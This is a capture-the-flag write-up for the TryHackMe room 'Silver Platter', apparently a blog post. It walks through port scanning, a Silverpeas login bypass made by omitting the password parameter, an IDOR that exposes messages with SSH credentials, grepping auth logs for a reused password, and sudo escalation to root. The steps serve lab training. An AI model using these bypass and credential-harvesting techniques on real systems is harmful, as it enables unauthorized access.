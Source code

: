 ```yaml
---
title: "Silver Platter"
date: 2025-03-15
image: /assets/img/tryhackme/SilverPlatter/SilverPlatter_image.jpg
description: Writeup of the TryHackMe-CTF Silver Platter
categories: [TryHackMe, Easy]
tags: [linux, blv]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Silver Platter</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Can you breach the server?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/silverplatter">https://tryhackme.com/room/silverplatter</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Silver Platter.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.254.4                                          
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-15 07:10 EDT
  Nmap scan report for 10.10.254.4
  Host is up (0.042s latency).
  Not shown: 65532 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  80/tcp   open  http
  8080/tcp open  http-proxy

  Nmap done: 1 IP address (1 host up) scanned in 18.10 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,8080 10.10.254.4
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-15 07:10 EDT
  Nmap scan report for 10.10.254.4
  Host is up (0.039s latency).

  PORT     STATE SERVICE    VERSION
  22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
  |_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
  80/tcp   open  http       nginx 1.18.0 (Ubuntu)
  |_http-server-header: nginx/1.18.0 (Ubuntu)
  |_http-title: Hack Smarter Security
  8080/tcp open  http-proxy
  |_http-title: Error
  | fingerprint-strings: 
  |   FourOhFourRequest, GetRequest, HTTPOptions: 
  |     HTTP/1.1 404 Not Found
  |     Connection: close
  |     Content-Length: 74
  |     Content-Type: text/html
  |     Date: Sun, 09 Mar 2025 11:10:45 GMT
  |     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
  |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
  |     HTTP/1.1 400 Bad Request
  |     Content-Length: 0
  |_    Connection: close
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The webserver hosted a single-page application for the company "Hack Smarter Security". Directory enumeration didn't reveal anything of interest. 
```bash
$ gobuster dir --url http://10.10.254.4/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.254.4/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://10.10.254.4/images/]
/assets               (Status: 301) [Size: 178] [--> http://10.10.254.4/assets/]
```

I continued manually analyze the website and found an interesting hint in the contact field:
```text
If you'd like to get in touch with us, please reach out to our project manager on Silverpeas. His username is "scr1ptkiddy".
```

Upon further research, I discoverd that `Silverpeas` is an open-source collaborative intranet. I began searching for this application but didn't find anything on port 80.

## Port 8080 Analysis

I restarted the directory enumeration, but didn't discoverd something useful, including the `Silverpeas` application.
```bash
$ gobuster dir --url http://10.10.254.4:8080/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.254.4:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/website              (Status: 302) [Size: 0] [--> http://10.10.254.4:8080/website/]
/console              (Status: 302) [Size: 0] [--> /noredirect.html]
```

I manually explored different directories in an attempt to discover `Silverpeas` and successfully located it at the following URL:
```text
http://10.10.254.4:8080/silverpeas
```

![Silverpeas login](/assets/img/tryhackme/SilverPlatter/thm_silverplatter_1.jpg)

At the bottom of the login page, I found a potential version number:
```text
 © 2001-2022 Silverpeas - All rights reserved
```

Using this version, I performed research to find any potential vulnerabilities and came across some relevant information in this <a href="https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d">GitHub</a>. I was able to log in by modifying the POST request variables. The login was successful after removing the password field:
```html
Login=scr1ptkiddy&Password=test&DomainId=0
 <- changed to ->
Login=scr1ptkiddy&DomainId=0
```

![Silverpeas](/assets/img/tryhackme/SilverPlatter/thm_silverplatter_2.jpg)

While enumerating the application, I found an unread message:
```text
Tyler just asked if I wanted to play VR but he left you out scr1ptkiddy (what a jerk). Want to join us? We will probably hop on in like an hour or so. 
```

During my initial research, I also found an Insecure Direct Object Reference (IDOR) vulnerability on <a href="https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323">GitHub</a>. Using this, I was able to read all messages which where exchanged on the server. One message in particular was really interesting -- it contained SSH credentials to log in as Tim and retrieve the user flag:

![Interesting Message](/assets/img/tryhackme/SilverPlatter/thm_silverplatter_3.jpg)

tim@silver-platter:~$ cat user.txt 
THM{[removed]}

## Privilege Escalation tyler

While searching for privilege escalation possibilities, I found credentials in the log files: 
```bash
tim@silver-platter:/$ cat /var/log/auth* | grep -i pass
[...]
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
[...]
```

Since the password was reused for both the Postgresql database and the user account, I was able to switch the user to Tyler:
```bash
tim@silver-platter:/$ su tyler
  Password:
tyler@silver-platter:/$ id
  uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

## Privilege Escalation root
I started by running `sudo -l` and got the following output, which allowed me to retrieved the root flag:
```bash
tyler@silver-platter:/$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL

tyler@silver-platter:/$ sudo cat /root/root.txt
	THM{[removed]}
```

solved! :)